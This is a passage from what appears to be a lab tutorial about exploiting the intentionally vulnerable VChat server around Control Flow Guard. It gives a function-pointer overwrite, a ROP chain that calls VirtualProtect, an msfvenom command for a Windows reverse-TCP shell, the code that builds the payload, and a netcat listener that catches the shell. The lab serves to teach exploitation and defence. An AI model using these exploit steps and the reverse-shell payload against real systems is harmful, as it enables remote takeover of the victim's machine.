         <img src="Images/VE17.png">

12. Modify your program to reflect [exploit5.py](./SRC/Exploits/exploit5.py), we have modified the address we overflow the function pointer to be the address of the 3 `POP` instructions followed by a `RETN`, and we have moved the ROP Chain to be 2 bytes from start of the buffer.

    https://github.com/DaintyJet/VChat_CFG/assets/60448620/23ab5693-0a65-4827-95ae-2da283157564

    1. Use the black *Go To Address in Disassembler* and enter in the address of the sequence of `pop` instructions you chose previously.

        <img src="Images/VE12.png">

    2. Add a breakpoint.

        <img src="Images/VE19.png">

    3. Observe the behavior of the program, we can see the ROP chain is now accessable and step through it till the call to `VirtualProtect(...)`, Be sure to not to step into the function call the `VirtualProtect(...)` as this will crash the process.

        <img src="Images/VE20.png">

13. Now we can add a payload to our exploit, this can be generated with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html). Once generated modify your exploit code to reflect [exploit6.py](./SRC/Exploits/exploit6.py).
    ```
    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d'
    ```

14. We generate the payload with the following structure:
    ```
    buff = 8

    PAYLOAD = (
        b'FUNCC /.' +
        create_rop_chain() +
        b'\x90' * buff +
        SHELL +
        b'\x90' * (792 - (len(create_rop_chain()) + len(SHELL) + buff)) +
        struct.pack('<L', 0x00403C02) # This will need to be a function in a module with CFG enabled
    )
    ```
> [!NOTE]
> We put the Shellcode after 2 bytes or more of `NOP` instructions to prevent any conflicts/overwrites the VirtualProtect function would cause.

1.  Start a Netcat listener on the Kali machine in a new terminal.
    ```
    $ nc -l -v -p 8080
    ```
2.  Run the Exploit and observe the results!
